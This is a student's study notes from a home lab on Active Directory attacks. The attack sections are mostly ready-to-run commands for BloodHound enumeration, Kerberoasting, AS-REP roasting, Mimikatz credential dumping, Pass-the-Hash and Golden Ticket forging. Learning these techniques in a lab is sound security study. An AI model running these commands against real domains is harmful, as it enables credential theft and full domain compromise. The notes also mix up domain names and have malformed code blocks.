 # 🛡️ Week 06 - Active Directory Hacking Notes

## 📚 Overview:
This week focuses on understanding **Active Directory (AD)** infrastructure, common attack techniques, and practical exploitation within a controlled lab environment. Techniques include Kerberos ticket attacks, credential dumping, and AD enumeration with BloodHound.

---

## 🎯 Learning Objectives:
- Understand the structure and concepts of Active Directory: Domains, Forests, OUs, GPOs, Users.
- Setup a lab environment with Windows Server (DC) and Windows 10 clients.
- Perform Kerberos ticket attacks (Golden Ticket, Pass-the-Hash).
- Enumerate Active Directory environment using BloodHound.
- Dump credentials using Mimikatz.
- Complete TryHackMe: Attacktive Directory room.

---

## 🛠️ Tools Used:
- **BloodHound**
- **Mimikatz**
- **SharpHound**
- **PowerView**
- **TryHackMe**
- **Windows Server 2019** & **Windows 10 VM**
- **Kali Linux 2024.1**

---

## 🖥️ Lab Setup:
- **1x Windows Server 2019** — Domain Controller (pasindu.local)
- **2x Windows 10 Machines** — Domain-joined (users: `student1`, `admin1`)
- **Kali Linux VM** on same network  
→ VirtualBox Host-Only Network (192.168.100.0/24)

📂 Folder structure:
```
company.local (Domain)
├── IT (OU)
│   ├── User: Pasindu
│   └── User: Kasun
├── Finance (OU)
│   ├── User: Nisansala
│   └── User: Dilani
├── Computers (OU)
│   ├── PC-01
│   └── PC-02
├── GPOs
    ├── Disable USB
    └── Enforce Password Complexity

```

---

## 🔍 Key Commands & Usage:

### 📌 BloodHound Data Collection
```powershell
# Run SharpHound binary
.\SharpHound.exe -c All -v --zipfilename loot.zip
```


### 📌 BloodHound Cypher Queries
```
// Find all Domain Admins
MATCH (u:User)-[:MemberOf]->(g:Group {name:"DOMAIN ADMINS@PASINDU.LOCAL"}) RETURN u

// Find shortest privilege escalation path from student1 to Domain Admins
MATCH p=shortestPath((n:User {name:'student1@PASINDU.LOCAL'})-[*1..]->(m:Group {name:"DOMAIN ADMINS@PASINDU.LOCAL"})) RETURN p
```

### 📌 Kerberoasting (SPN ticket hash extraction)
```powershell
# List accounts with SPN values
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```bash
# Use Rubeus to extract Kerberos TGS tickets
Rubeus.exe kerberoast /format:hashcat /outfile:kerberoast_hashes.txt
```

### 📌 AS-REP Roasting
```powershell
# Find accounts without Kerberos pre-authentication enabled
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```bash
# Use Rubeus for AS-REP roastable accounts
Rubeus.exe asreproast /outfile:asrep_hashes.txt
```

### 📌 Credential Dumping with Mimikatz
```
# Run Mimikatz and enable debug privilege
privilege::debug

# Dump plaintext logon passwords from memory
sekurlsa::logonpasswords

# Dump NTLM hashes from SAM database
lsadump::sam

# Dump Kerberos tickets
sekurlsa::kerberos
```

### 📌 Pass-the-Hash (PtH) Attack
```
# Use NTLM hash for authentication and open a privileged shell
sekurlsa::pth /user:Administrator /domain:pasindu.local /ntlm:<NTLMHASH> /run:cmd.exe
```

### 📌 Golden Ticket Attack
```
# Dump krbtgt NTLM hash
lsadump::lsa /patch

# Create and inject Golden Ticket
kerberos::golden /user:Administrator /domain:pasindu.local /sid:S-1-5-21-XXX /krbtgt:<KRBTGT_HASH> /id:500 /ptt

# Verify injected ticket
klist
```

---

## 📚 References:
  - [Varonis Active Directory Basics](https://www.varonis.com/blog)
  - [BloodHound Documentation](https://bloodhound.readthedocs.io/en/latest/)
  - [Mimikatz GitHub](https://github.com/gentilkiwi/mimikatz)
  - [TryHackMe Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)

---

## 📖 Summary:
- ✅ Understood Active Directory architecture and Kerberos workflow
- ✅ Successfully performed Kerberoasting, AS-REP Roasting, Pass-the-Hash, and Golden Ticket attacks
- ✅ Credential dumped using Mimikatz
- ✅ Enumerated AD graph with BloodHound
- ✅ Completed practical hands-on in TryHackMe
- ✅ Collected logs, screenshots, and evidence for documentation
